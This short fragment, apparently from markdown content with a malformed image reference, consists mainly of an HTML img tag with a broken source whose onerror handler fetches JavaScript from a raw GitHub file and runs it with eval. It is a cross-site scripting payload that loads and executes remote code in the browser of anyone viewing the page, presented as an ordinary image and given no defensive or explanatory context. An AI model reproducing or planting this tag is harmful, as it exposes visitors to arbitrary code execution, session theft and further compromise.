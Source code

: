 <img src=# onerror='fetch("https://raw.githubusercontent.com/gco-12345/vsmonky/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
